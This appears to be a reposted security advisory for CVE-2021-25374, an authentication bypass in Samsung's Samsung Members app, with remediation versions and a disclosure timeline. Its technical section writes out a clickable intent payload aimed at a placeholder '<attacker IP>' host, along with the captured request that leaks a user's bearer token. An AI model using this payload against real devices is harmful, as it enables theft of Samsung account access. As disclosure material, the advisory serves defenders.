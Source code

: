 ```yaml
---
layout: page
title: CVE-2021-25374 Details
permalink: /cves/cve-2021-25374
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/](https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/)

|    **Product**    | Samsung phones with Samsung Members (version dependent on OS) |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2021-25374             |
|      **Type**     |          Authentication Bypass         |

## Description

F-Secure looked into exploiting the Samsung S20 device for Tokyo Pwn2Own 2020. An issue was discovered that would have allowed an attacker to gain access to the victim's Samsung Account. 

## Technical Details

Samsung Members (com.samsung.android.voc) is an application which offers tips and solutions for Samsung device owners. For US and South Korean users, the app also offers a portal to login to Samsung Members, the official Samsung loyalty program.

A webview within the Samsung Rewards section of the application could be used to obtain access to someone's Samsung account. The following launchable intent could be used to replicate this issue:

```
<a href="intent://launch?url=http://<attacker IP>:8000/yay.html&action=sso&from=ZZ&iso=ZZ#Intent;scheme=samsungrewards;package=com.samsung.android.voc;action=android.intent.action.VIEW;end;">yay click here yay</a>
```

Users that have a vulnerable version of Samsung Members installed are at risk of having their Samsung Account compromised via the above browsable link. After tapping the above link on a vulnerable phone, the application will make a HTTP request similar to the following, which contains the user’s authorization bearer token and appid. In this scenario, an attacker controls the IP address located at "<attacker IP>":

```
GET /yay.html HTTP/1.1
Host: <attacker IP>:8000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; SM-G985F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/85.0.4183.127 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
authorization: Bearer <bearer value>
x-osp-appid: <appid value>
X-Requested-With: com.samsung.android.voc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Using these two pieces of information, it is possible for an attacker to make a series of requests that would give the attacker access to the user’s Samsung Account. F-Secure developed a Python Proof of Concept (PoC) script that would automate the series of requests and print the account's profile information. The screenshot below shows the PoC script in action (left) and what the phone displays during exploitation (right):

<div align="center">
    <img src="/assets/my_cves/cve-2021-25374_1.png">
</div>

The PoC script can be found on F-Secure's GitHub page at [https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access](https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access).

## Remedial Action

Samsung has released patched versions of Samsung Members which addresses the above issue. The version that should be downloaded depends on the OS of the device itself.

* Devices running Android O (8.1) and below should download Samsung Members version 2.4.83.9 or above
* Devices running Android P (9.0) and above should download Samsung Members version 3.9.00.9 or above

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   03/10/2020   | Issue disclosed to Samsung Mobile Security |
|   03/10/2020   | Issue assigned to a Samsung Security Analyst |
|   25/10/2020   | Samsung confirms the vulnerability and rates it as a high risk issue |
|   11/01/2021   | Follow up sent to Samsung |
|   11/01/2021   | Samsung responded to follow up saying a patch is still being worked on |
|   06/04/2021   | Patch released, Samsung initiates process for bug bounty reward |
|   06/04/2021   | CVE Assigned |
|   28/04/2021   | Advisory Published |